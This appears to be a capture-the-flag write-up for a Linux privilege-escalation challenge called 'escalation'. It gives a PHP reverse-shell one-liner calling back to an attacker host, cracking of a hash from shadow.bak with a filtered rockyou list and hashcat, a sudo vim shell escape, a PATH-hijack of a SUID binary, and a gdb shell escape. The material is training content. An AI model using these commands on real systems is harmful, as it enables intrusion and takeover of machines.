# How to run

```bash
cd deploy && docker-compose up --build
```

# Challenge name

    escalation

# Challenge description

    Can you climb to the top?

# Writeup

## 1. Reverse shell from web to a proper shell

Using the following payload on the webshell we can easily get a reverse shell on our VPS/ngrok:

```php
php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3")';
```



## 2. Privilege escalation: www to user2

We recieve the following hint:


### 2.1

As it was suggested there are hashes hidden, `shadow.bak` is a pretty common place where they can be found:

```bash
find / -name 'shadow.bak' 2>/dev/null
```



### 2.2

Also the hint suggested to filter our password wordlist to crack it faster:

```bash
cat /path/to/rockyou.txt | grep "cherry" > rockyou_cherry_filter.txt
```



### 2.3

We crack it using hashcat:

```bash
hashcat -a 0 -m 1800 user2_hash rockyou_cherry_filter.txt
```


And obtain password `!!cherry!!`


### 2.4

Now you can login as user2 and get the first flag:


## 3. Privilege escalation: user2 to user3

### 3.1

If we check `sudo -l` we will get the following result:


### 3.2

First [payload](https://gtfobins.github.io/gtfobins/vim/) from GTFOBins does the trick:

```bash
sudo -u user3 /usr/bin/vim -c ':!/bin/bash'
```



## 4. Privilege escalation: user3 to user4

### 4.1

Checking for suid binaries and we find a weird one:

```bash
find / -perm -u=s -type f 2>/dev/null
```



### 4.2

If we reverse it we can see that is a simple C code that will set our uid/gid to `user4` and execute `chmod` with the **relative path**. This is vulnerable to `path hijacking`:

```bash
ltrace /usr/bin/fixpermissions
```



### 4.3

We setup an isolated folder where we can craft our payload for `path hijacking attack`:

```bash
mkdir -p /tmp/test
cd /tmp/test
echo "/bin/bash -p" > chmod
chmod 777 chmod
export PATH=/tmp/test:$PATH
/usr/bin/fixpermissions
```

And eventually get the last flag:


# 5. Privilege escalation: user4 to user5

### 5.1

We need to do gdb `gdb hijack`:  
Check gdb permissions  


Execute shell with gdb.

```bash
gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```



Extract the flag!!

